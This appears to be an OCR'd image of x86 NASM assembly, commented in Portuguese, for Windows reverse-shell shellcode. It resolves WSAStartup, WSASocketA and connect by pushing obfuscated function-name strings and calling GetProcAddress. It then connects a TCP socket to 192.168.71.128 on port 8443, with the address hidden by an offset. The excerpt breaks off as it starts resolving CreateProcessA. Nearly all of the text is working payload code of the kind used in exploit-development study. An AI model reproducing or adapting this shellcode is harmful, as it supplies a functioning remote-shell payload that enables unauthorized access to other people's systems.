 ```nasm

WSAStartupCall:

	xor edx, edx    ;zerando registrador
	mov dx, 0x190   ;preparando espaço para WSADATA
	sub esp, edx    ;alocando o espaço para WSADATA
	push esp        ;movendo ponteiro para este espaço
	push edx        ;enviando o parametro wVersionRequested para stack
	call eax        ;chamando WSAStartup(MAKEWORD(2, 2), wsadata_pointer)

WSASocketA:

	push 0x4e4e4174              ;movendo NNAt para stack
	sub word [esp + 0x2], 0x4e4e ;removendo o "NN"
	push 0x656b636f              ;movendo ekco para stack
	push 0x53415357              ;movendo SASW para stack
	push esp                     ;movendo ponteiro da string para a stack
	push esi                     ;movendo ponteiro da ws2_32 para esi
	call ebp                     ;chamando GetProcAddress("ws2_32.dll", "`WSASocketA")

WSASocketACall:

	xor edx, edx    ;zerando registrador
	push edx        ;dwFlags=NULL
	push edx        ;g=NULL
	push edx        ;lpProtocolInfo=NULL
	mov dl, 0x6     ;edx==6
	push edx        ;protocol=6
	sub dl, 0x5     ;edx==1
	push edx        ;type=1
	inc edx         ;edx==2
	push edx        ;af=2
	call eax        ;call WSASocketA
	push eax        ;enviando retorno para stack
	pop edi         ;salvando socket em edi

Connect:

	push 0x4e746365            ;movendo Ntce para stack
	sub word [esp + 0x3], 0x4e ;removendo o "N"
	push 0x6e6e6f63            ;movendo nnoc para stack
	push esp                   ;movendo ponteiro da string para a stack
	push esi                   ;movendo ponteiro da ws2_32 para esi
	call ebp                   ;chamando GetProcAddress("ws2_32.dll", "connect")

ConnectCall:

	 mov edx, 0x8148A9C1    ;movendo 192.168.71.128 + 0x01010101 para a stack
	 sub edx, 0x01010101    ;subtraindo 0x01010101
	 push edx               ;movendo ponteiro da sin_addr para a stack
	 push word 0xFB20       ;movendo porta 8443 = 0x20FB para a stack
	 xor edx, edx
	 mov dl, 2
	 push dx
	 mov edx, esp
	 push byte 0x10
	 push edx
	 push edi
	 call eax               ;chamando connect

CreateProcessA:

	push 0x4e4e4173              ;movendo NNAs para stack
```